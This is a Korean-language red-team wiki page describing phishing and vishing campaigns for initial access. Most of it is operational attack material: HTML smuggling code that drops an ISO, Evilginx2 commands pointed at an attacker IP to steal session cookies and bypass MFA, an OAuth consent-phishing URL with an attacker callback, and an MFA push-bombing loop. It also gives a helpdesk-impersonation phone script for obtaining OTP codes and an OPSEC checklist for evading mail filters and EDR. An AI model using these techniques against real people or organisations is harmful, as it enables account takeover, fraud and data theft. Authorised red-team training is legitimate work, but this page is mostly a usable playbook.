

# Phishing / Vishing

!!! abstract "개요"
    레드팀 라이프사이클의 **초기 침투** 단계에서 가장 자주 쓰이는 벡터.  
    "공격 인프라 구축 → 피싱 시나리오 설계 → 전달 → 랜딩/자격증명 수집/페이로드 실행 → 피드백" 의 흐름으로 진행한다.

---

## 공격 인프라 구축



- **카테고리화(Categorization)**: 새로 등록한 도메인은 `Proofpoint/Palo Alto` 등에서 대부분 분류 미지정/Uncategorized 로 차단됨. 최소 2~4주간 **정상 트래픽**(cronjob curl, 허위 블로그 등)으로 reputation을 쌓거나, 만료된 `expired domain`을 구매해 기존 카테고리를 재활용.
- **SMTP/메일 인프라**: SPF/DKIM/DMARC **모두 정상 통과**하도록 구성. `Mailgun`, `SendGrid`, 자체 Postfix+OpenDKIM.
- **리다이렉터**: Apache mod_rewrite 또는 nginx reverse proxy로 **C2 IP 직접 노출 방지**. User-Agent, URI 기반으로 샌드박스/블루팀 트래픽은 404로 돌려보낸다.
- **도메인**: 타겟 회사/브랜드와 유사한 철자(homoglyph/typosquatting) 또는 업계 신뢰 키워드 (`corp-support`, `hr-policy` 등).

---

## 시나리오 카테고리

| 시나리오 | 목적 | 페이로드 |
|---|---|---|
| Credential Harvesting | 계정 탈취 (O365 / VPN / SSO) | evilginx 프록시 / 위장 로그인 페이지 |
| Malicious Attachment | 엔드포인트 실행 | HTA / LNK / ISO / VBA 매크로 / OneNote |
| Malicious Link | 브라우저/드라이브바이 | HTML Smuggling / MSIX / ClickOnce |
| Consent Phishing (OAuth) | Azure AD 토큰 탈취 | `illicit-consent-grant` 앱 |
| MFA Fatigue / Push Bombing | MFA 우회 | 반복 푸시 요청 |
| Vishing (전화) | 세션 쿠키 / OTP 탈취 | 헬프데스크 사칭 |

---

## HTML Smuggling

브라우저 내부에서 JS로 실제 파일을 재구성하여 네트워크 레벨 MIME 검사 우회.

```html
<script>
  const data = atob("TVqQAA..."); // base64(encoded.iso)
  const bytes = new Uint8Array(data.length);
  for (let i=0; i<data.length; i++) bytes[i] = data.charCodeAt(i);
  const blob = new Blob([bytes], {type:'application/octet-stream'});
  const a = document.createElement('a');
  a.href = URL.createObjectURL(blob);
  a.download = 'invoice.iso';
  a.click();
</script>
```

- ISO/IMG/VHD 는 Mark-of-the-Web(MotW)를 **전파하지 않는** 컨테이너 → 내부 LNK/HTA가 SmartScreen을 우회할 수 있었음 (2022 후반 Microsoft 패치로 일부 개선).

---

## GoPhish (대량 캠페인 관리)

```bash
# 설치
docker run -d -p 3333:3333 -p 80:80 -p 443:443 gophish/gophish

# 구성
# 1. Sending Profile: SMTP Relay (Mailgun)
# 2. Landing Page: 캡처한 O365/SSO 로그인
# 3. Email Template: {{.FirstName}} 변수로 개인화
# 4. User Group: OSINT에서 수집한 users.txt 업로드
# 5. Campaign 시작 → 클릭률/자격증명 대시보드
```

---

## Evilginx2 (MFA Bypass via Session Hijack)

```bash
# Phishlet 로드
evilginx2 -p ./phishlets/
config domain phish-o365.com
config ipv4 <ATTACKER_IP>
phishlets hostname o365 phish-o365.com
phishlets enable o365
lures create o365
lures get-url 0
# → 피싱 URL 생성. 피해자가 정상 로그인하면 session cookie를 공격자가 탈취 → MFA 무력화
```

!!! warning "MFA 우회 원리"
    evilginx는 AiTM(Adversary-in-the-Middle) 프록시로 동작하여, 피해자의 실제 IdP 세션을 통과시킨 뒤 **인증 완료 후의 세션 쿠키** (`ESTSAUTHPERSISTENT` 등) 를 탈취한다. 이후 공격자가 브라우저에 쿠키 주입만 하면 MFA 재인증 없이 로그인 가능.

---

## Consent Phishing (OAuth App)

Azure AD 에서 **사용자 동의** 만으로 악성 앱이 Mail.Read, Files.Read.All 권한 획득.

```powershell
# 악성 앱 등록 후 동의 URL 전달
https://login.microsoftonline.com/common/oauth2/v2.0/authorize?
    client_id=<APP_ID>&
    response_type=code&
    redirect_uri=<ATTACKER_CALLBACK>&
    scope=offline_access%20Mail.Read%20Files.Read.All%20User.Read
```

- 피해자가 "Accept" 클릭만 하면 refresh_token 획득 → 메일/OneDrive 상시 조회 가능.
- 탐지: Azure AD Sign-in Logs 의 `Consent to application` 이벤트 + `Microsoft 365 Defender` alert policy.

---

## MFA Fatigue / Push Bombing

```bash
# 자격증명 확보 후 push 스팸 → 피해자가 귀찮아서 "승인" 클릭 유도
while true; do
    curl -s -X POST https://login.microsoftonline.com/... # MFA push 트리거 API
    sleep 30
done
```

- Microsoft Authenticator 의 **Number Matching** 활성화 시 우회 불가.

---

## Vishing (전화 사칭)

1. IT 헬프데스크 사칭 → 사용자에게 AnyDesk/TeamViewer 설치 유도
2. 회사 내부 내선번호 스푸핑 (`SpoofCard`, VoIP Asterisk)
3. MFA 코드를 "방금 전송된 보안 코드 확인차 불러주세요" 로 탈취

```
[대본 예시]
"안녕하세요, IT 보안팀 김○○ 대리입니다.
방금 귀하의 계정에서 비정상 로그인이 탐지되어 검증이 필요합니다.
지금 받으신 6자리 코드를 불러주시면 차단 해제해드리겠습니다."
```

---

## 클라이언트 측 실행 기법

- **LNK + PowerShell + AMSI Bypass** (→ [AMSI Bypass](../evasion/index.md#amsi-bypass))
- **OneNote (.one)**: `Embedded File` 로 HTA/CHM/WSF 실행
- **MSI / MSIX**: 서명된 인스톨러 내부에 페이로드 삽입
- **ClickOnce (.application)**: .NET loader, Defender 탐지 회피 가능
- **SVG Smuggling**: SVG 내부 `<script>` 로 HTML smuggling (Outlook 웹뷰에서 렌더링됨)

---

## OPSEC 체크리스트

- [ ] 도메인 WHOIS 는 프라이버시 가드 (Namecheap Whoisguard 등)
- [ ] SPF/DKIM/DMARC 모두 정합성 검증 (`mail-tester.com` 10/10)
- [ ] 리다이렉터 Apache/nginx 에 User-Agent 필터 (Proofpoint/Mimecast/WindowsDefender 차단)
- [ ] C2 도메인은 TLS 인증서(`Let's Encrypt`) 적용 + `Domain Fronting` 가능한 CDN 앞단
- [ ] 캠페인 실행은 타겟 국가 업무 시간 내 (로그 매몰)

---

## 탐지 / 방어 측 참고 (RT가 알아두면 회피에 유리)

- Defender for Office 365 의 `Safe Links` / `Safe Attachments` → URL 재작성, 샌드박스 폭발
- Proofpoint TAP / Mimecast 는 첨부파일 **detonation**, URL **Time-of-Click** 검증
- EDR 의 `Child Process` 탐지: `WINWORD.EXE → powershell.exe` = 거의 100% 탐지
- Azure AD **Risky Sign-In** 탐지: 신규 국가/Impossible Travel → Conditional Access 차단

---

## 참고

- 레드팀 인프라 구축 방법론: [C2 인프라](../infra/c2.md), [파일 전송](../infra/file-transfer.md)
- MFA 우회 상세: [Web 공격 - 2FA/MFA Bypass](../web/index.md#2famfaotp-bypass-패턴)
- OSINT: [OSINT / 외부 정찰](osint.md)
